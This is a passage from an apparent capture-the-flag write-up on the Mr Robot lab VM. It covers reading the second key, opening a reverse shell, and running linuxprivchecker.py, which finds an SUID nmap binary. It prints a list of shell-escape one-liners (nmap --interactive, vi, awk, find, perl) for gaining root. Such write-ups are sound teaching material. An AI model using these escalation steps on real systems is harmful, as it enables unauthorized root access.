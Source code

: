 ```bash
Started: Tue May 26 10:00:42 2020
Stopped: Tue May 26 10:00:52 2020
```

Since I couldn't `ssh` or `su`, I decided to simply use the login prompt directly on the target VM to login as the `robot` user. I was then able to read the 2nd key:

![alt]({{ site.url }}{{ site.baseurl }}/images/mrrobot_key2.png)

I passed a reverse shell to my own machine so that I wasn't limited to working in the awkward second VM window. At this point I was pretty sure the third key (whereever it was) would only be readable by the `root` user, so either way I had to escalate my current privileges.

I transferred a Python script called `linuxprivchecker.py` to the target's machine and ran it. This script enumerates a *lot* about the machine it runs on and is useful to help find privilege escalation paths. I shortened the output but I noticed these two parts:

```bash
[+] SUID/SGID Files and Directories
    -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
    -rwsr-xr-x 1 root root 69120 Feb 12  2015 /bin/umount
    -rwsr-xr-x 1 root root 94792 Feb 12  2015 /bin/mount
    -rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
    -rwsr-xr-x 1 root root 36936 Feb 17  2014 /bin/su
    -rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-touchlock
    -rwsr-xr-x 1 root root 47032 Feb 17  2014 /usr/bin/passwd
    -rwsr-xr-x 1 root root 32464 Feb 17  2014 /usr/bin/newgrp
    -rwxr-sr-x 1 root utmp 421768 Nov  7  2013 /usr/bin/screen
    -rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-unlock
    -rwxr-sr-x 3 root mail 14592 Dec  3  2012 /usr/bin/mail-lock
    -rwsr-xr-x 1 root root 41336 Feb 17  2014 /usr/bin/chsh
    -rwxr-sr-x 1 root crontab 35984 Feb  9  2013 /usr/bin/crontab
    -rwsr-xr-x 1 root root 46424 Feb 17  2014 /usr/bin/chfn
    -rwxr-sr-x 1 root shadow 54968 Feb 17  2014 /usr/bin/chage
    -rwsr-xr-x 1 root root 68152 Feb 17  2014 /usr/bin/gpasswd
    -rwxr-sr-x 1 root shadow 23360 Feb 17  2014 /usr/bin/expiry
    -rwxr-sr-x 1 root mail 14856 Dec  7  2013 /usr/bin/dotlockfile
    -rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
    -rwxr-sr-x 1 root ssh 284784 May 12  2014 /usr/bin/ssh-agent
    -rwxr-sr-x 1 root tty 19024 Feb 12  2015 /usr/bin/wall
    -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
```

```bash
[+] Related Shell Escape Sequences...

    nmap-->     --interactive
    vi-->       :!bash
    vi-->       :set shell=/bin/bash:shell
    awk-->      awk 'BEGIN {system("/bin/bash")}'
    find-->     find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
    perl-->     perl -e 'exec "/bin/bash";'
```
